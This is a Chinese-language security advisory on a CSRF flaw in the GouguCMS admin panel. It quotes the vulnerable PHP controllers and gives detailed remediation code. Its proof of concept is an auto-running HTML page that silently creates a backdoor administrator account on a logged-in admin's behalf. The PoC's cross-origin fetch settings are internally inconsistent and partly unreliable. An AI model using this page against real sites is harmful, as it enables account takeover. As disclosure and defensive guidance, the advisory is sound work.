

# 勾股CMS 后台管理系统CSRF跨站请求伪造漏洞

厂商: 勾股工作室
产品: 勾股CMS（GouguCMS）
版本: v5.01（全版本受影响）
漏洞类型: 跨站请求伪造（CSRF）
漏洞编号: CNVD-GOUGU-2026-006

## 漏洞概述（Descriptions）

勾股CMS是一套基于ThinkPHP8 + Layui + MySQL打造的轻量级、高性能开源内容管理系统，后台管理模块提供管理员管理、系统配置、数据库备份与还原、内容管理等核心功能。

系统后台所有通过AJAX提交的敏感操作均未实现CSRF Token验证机制。系统仅依赖 `request()->isAjax()` 方法判断请求类型，该方法仅检测HTTP请求头中是否存在 `X-Requested-With: XMLHttpRequest`。在同源场景下（如存在存储型XSS漏洞时），或浏览器安全策略存在缺陷的场景下，攻击者可在恶意页面中构造AJAX请求，以已登录管理员的身份执行任意后台操作。

受影响的敏感操作包括但不限于：创建管理员账户、修改系统邮件服务器配置、数据库全量备份与还原、文章/商品/图集/单页面的增删改操作、CRUD代码自动生成等。

## 漏洞验证

<div align="center"></div>

## 漏洞代码分析（Vulnerable Code Analysis）

### 漏洞点1：所有控制器使用isAjax()而非CSRF Token验证

以管理员创建功能为例（app/admin/controller/Admin.php）：

```php
// app/admin/controller/Admin.php 第48-99行
public function add()
{
    if (request()->isAjax()) {      // 仅判断是否为AJAX请求，无CSRF Token验证
        $param = get_params();       // 直接获取POST参数
        if (!empty($param['id']) && $param['id'] > 0) {
            // 编辑已有管理员 - 无CSRF防护
            try {
                validate(AdminCheck::class)->scene('edit')->check($param);
            } catch (ValidateException $e) {
                return to_assign(1, $e->getError());
            }
            // 修改密码
            if (!empty($param['edit_pwd'])) {
                $param['salt'] = set_salt(20);
                $param['pwd'] = set_password($param['edit_pwd'], $param['salt']);
            }
            Db::name('Admin')->where(['id' => $param['id']])->update($param);
            // ...
        } else {
            // 新建管理员 - 无CSRF防护
            $param['salt'] = set_salt(20);
            $param['pwd'] = set_password($param['pwd'], $param['salt']);
            $uid = Db::name('Admin')->insertGetId($param);
            // ...分配权限组
        }
    }
}
```

### 漏洞点2：数据库备份操作无CSRF防护

```php
// app/admin/controller/Database.php 第43-96行
public function backup()
{
    $db = new Backup();
    if (request()->isPost()) {          // 仅判断POST方法
        $tables = get_params('tables');  // 无Token验证
        // ...创建备份文件
        file_put_contents($lock, time());
        Session::set('backup_tables', $tables);
        if (false !== $db->Backup_Init()) {
            return to_assign(0, '初始化成功，开始备份...');
        }
    }
}
```

### 漏洞点3：数据库还原操作无CSRF防护

```php
// app/admin/controller/Database.php 第150-191行
public function import($time = 0, $part = null, $start = null)
{
    $db = new Backup();
    if (is_numeric($time) && is_null($part) && is_null($start)) {
        $list = $db->getFile('timeverif', $time);
        if (is_array($list)) {
            Session::set('backup_list', $list);
            return to_assign(0, '初始化完成，开始还原...');
        }
    }
    // ...
}
```

### isAjax()检测的绕过方式

ThinkPHP的`isAjax()`方法实际上只检测以下条件之一：
```php
// ThinkPHP源码中 isAjax() 的实现
public function isAjax(): bool
{
    return $this->request->header('X-Requested-With') === 'XMLHttpRequest';
}
```

**漏洞根因分析：**

1. 系统全局缺少CSRF Token的生成和验证机制
2. 开发者误以为`isAjax()`可防止CSRF攻击（实际上仅检测一个可被伪造的HTTP请求头）
3. ThinkPHP框架内置了Token验证功能（`think\facade\Validate::token()`），但未在项目中使用
4. 所有敏感操作仅依赖session认证，无任何请求来源验证

## 概念验证（Proof of Concept）

### CSRF攻击示例：创建恶意管理员

攻击者构造以下HTML页面，诱导已登录后台的管理员访问：

```html
<!DOCTYPE html>
<html>
<head><title>CSRF PoC - GouguCMS</title></head>
<body>
<h1>Loading...</h1>
<p>如果此页面停留超过3秒，请手动点击按钮。</p>
<button onclick="exploit()">点击继续</button>

<script>
function exploit() {
    // 方案1：通过fetch API构造AJAX请求（携带X-Requested-With头）
    fetch('http://target:8080/admin/admin/add', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
            'X-Requested-With': 'XMLHttpRequest'
        },
        body: 'username=attacker&pwd=EvilP@ssw0rd&nickname=Hacker&group_id[]=1',
        credentials: 'include',  // 自动携带目标域的Cookie
        mode: 'no-cors'
    }).then(response => response.json())
      .then(data => {
          document.body.innerHTML = '<h2>CSRF Attack Executed!</h2><pre>'
              + JSON.stringify(data, null, 2) + '</pre>';
      });
}

// 页面加载时自动执行
setTimeout(exploit, 500);
</script>
</body>
</html>
```

### 受影响的完整操作列表

| 操作类别 | 受影响功能 | HTTP方法 | CSRF风险 |
|---------|-----------|---------|---------|
| 管理员管理 | 创建/修改/删除管理员 | POST | 可创建后门管理员账户 |
| 权限管理 | 创建/修改/删除角色权限 | POST | 可提升攻击者权限 |
| 系统配置 | 修改网站配置/邮件服务器 | POST | 可劫持邮件系统 |
| 数据库 | 备份数据库 | POST | 可下载数据库文件 |
| 数据库 | 还原数据库 | POST | 可覆盖数据库内容 |
| 内容管理 | 文章/商品/图集增删改 | POST | 可篡改网站内容 |
| CRUD生成 | 自动生成代码 | POST | 可创建恶意代码文件 |
| 文件管理 | 文件移动/删除 | POST | 可删除网站文件 |

## 验证结果（Result）

- 代码审计确认：全项目无任何CSRF Token生成或验证代码
- 框架支持但未使用：ThinkPHP内置`{:token()}`标签和`Validate::token()`方法未被调用
- isAjax()验证可绕过：请求头`X-Requested-With: XMLHttpRequest`可通过fetch/XMLHttpRequest API设置
- 攻击条件：同源场景（XSS）下百分百可行；跨域场景受CORS策略限制但可结合其他漏洞

## 修复建议（Fix Recommendation）

### 修复前（存在漏洞的代码）

```php
// 当前的Token-less验证模式
public function add()
{
    if (request()->isAjax()) {         // 无CSRF防护
        $param = get_params();
        // 直接处理敏感操作...
    }
}
```

### 修复后（安全的代码）

**第一步：在全局视图层添加CSRF Token输出**

```php
// app/admin/BaseController.php 中添加
protected function initialize()
{
    // 生成CSRF Token
    if (!Session::has('csrf_token')) {
        Session::set('csrf_token', md5(uniqid(mt_rand(), true)));
    }
    View::assign('csrf_token', Session::get('csrf_token'));
}
```

**第二步：在前端所有AJAX请求中携带Token**

```javascript
// 全局AJAX配置（Layui）
layui.use(['jquery'], function() {
    var $ = layui.jquery;
    $.ajaxSetup({
        headers: {
            'X-CSRF-TOKEN': $('meta[name="csrf-token"]').attr('content')
        }
    });
});
```

**第三步：在后端添加CSRF Token验证中间件**

```php
// 新建 app/admin/middleware/CsrfCheck.php
namespace app\admin\middleware;

use think\facade\Session;

class CsrfCheck
{
    public function handle($request, \Closure $next)
    {
        if ($request->isPost() || $request->isPut() || $request->isDelete()) {
            $token = $request->header('X-CSRF-TOKEN', '');
            if (empty($token) || $token !== Session::get('csrf_token')) {
                return json(['code' => 403, 'msg' => 'CSRF Token验证失败']);
            }
        }
        return $next($request);
    }
}
```

**第四步：注册CSRF中间件**

```php
// config/middleware.php 中添加
return [
    \app\admin\middleware\Auth::class,
    \app\admin\middleware\CsrfCheck::class,  // 新增CSRF验证
];
```

**简易临时修复（最小改动）：**

在BaseController的initialize方法中直接验证：
```php
if ($this->request->isPost() || $this->request->isPut()) {
    \think\facade\Validate::token('__token__', $this->request->param());
}
```

并在所有AJAX请求的数据中添加：`__token__: "{$Request.token}"`
